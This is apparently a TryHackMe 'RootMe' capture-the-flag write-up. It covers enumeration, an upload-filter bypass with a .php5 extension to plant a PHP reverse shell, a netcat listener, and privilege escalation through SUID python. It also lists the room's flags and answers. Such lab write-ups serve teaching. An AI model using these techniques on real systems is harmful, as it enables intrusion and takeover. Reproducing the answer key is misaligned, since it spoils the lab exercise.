# RootMe - TryHackMe Write

> **Link** https://tryhackme.com/room/rrootme  
> **Difficulty**: Easy

## 1. Reconnaissance

The reconnaissance phase consists of collecting as much information as possible about the target before attempting exploitation.

### 1.1 Nmap Scan

We start by performing a port scan using **Nmap** to identify the open services running on the target machine:

```
nmap <target_ip>
```



The scan reveals **two open ports**:

- **22/tcp** → SSH (Secure Shell)  
- **80/tcp** → HTTP (Web Server)

This indicates that the machine is hosting a web application and also allows remote connections via SSH.

We then navigate to the web service:

```
http://<target_ip>
```

After inspecting the source code of the web page, no useful information or credentials are found.



---

### 1.2 Directory Enumeration

To find hidden directories and endpoints, we use **Gobuster**, a directory brute-forcing tool:

```
gobuster dir -u http://<target_ip> -w <wordlist>
```



This scan reveals a hidden directory:

```
/panel/
```

This directory looks promising and will be investigated further.

---

## 2. Gaining a Shell

### 2.1 Accessing the Upload Panel

We access the discovered directory:

```
http://<target_ip>/panel/
```



We find a **file upload form**, which may be vulnerable to file upload attacks. This allows us to attempt uploading a malicious file to gain remote code execution.

---

### 2.2 Preparing the Reverse Shell

We use a well-known PHP reverse shell script from PentestMonkey:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We modify the script to insert our **local IP address** and **listening port**:



When trying to upload the file using the `.php` extension, the server blocks the upload:



---

### 2.3 Upload Filter Bypass

After researching file upload bypass techniques, we discover that the server allows the `.php5` extension.

We rename the file to:

```
reverse_shell.php5
```

We then upload it successfully:



---

### 2.4 Listener Setup and Shell Execution

On our local machine, we set up a Netcat listener to catch the reverse shell:

```
nc -lvnp 4444
```



We then access the uploaded file in the browser:

```
http://<target_ip>/uploads/reverse_shell.php5
```

A reverse shell connection is successfully established.

---

### 2.5 Shell Upgrade

To improve shell stability and interactivity, we spawn a proper TTY shell using Python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This provides a more functional shell environment.

---

### 2.6 User Flag

We search for the user flag using the following command:

```
find / -type f -name user.txt 2>/dev/null
```

This command searches the entire filesystem while suppressing error messages.



We find the user flag:

```
THM{y0u_g0t_a_sh3ll}
```

---

## 3. Privilege Escalation

### 3.1 Finding SUID Files

To escalate privileges, we search for binaries with the **SUID bit** enabled:

```
find / -perm -u=s -type f 2>/dev/null
```

The SUID permission allows a program to run with the privileges of its owner. If a SUID binary is owned by **root**, it can potentially be exploited for privilege escalation.

We discover a suspicious file:

```
/usr/bin/python
```

This is unusual and highly exploitable.

---

### 3.2 Exploiting SUID Python

Using **GTFOBins**, we find a known method to escalate privileges using Python:



We execute the following command:

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This spawns a shell with **root privileges**.



---

### 3.3 Root Flag

Finally, we retrieve the root flag:

```
cat /root/root.txt
```

```
THM{pr1v1l3g3_3sc4l4t10n}
```

---

## 4. Final Answers

**Q: Scan the machine, how many ports are open?**  
A: **2**

**Q: What version of Apache is running?**  
A: **2.4.41**

**Q: What service is running on port 22?**  
A: **SSH**

**Q: What is the hidden directory?**  
A: **/panel/**

**Q: Find a form to upload and get a reverse shell, and find the flag.**  
A: **THM{y0u_g0t_a_sh3ll}**

**Q: Search for files with SUID permission, which file is weird?**  
A: **/usr/bin/python**

**Q: Find a form to escalate your privileges and retrieve root.txt.**  
A: **THM{pr1v1l3g3_3sc4l4t10n}**

---

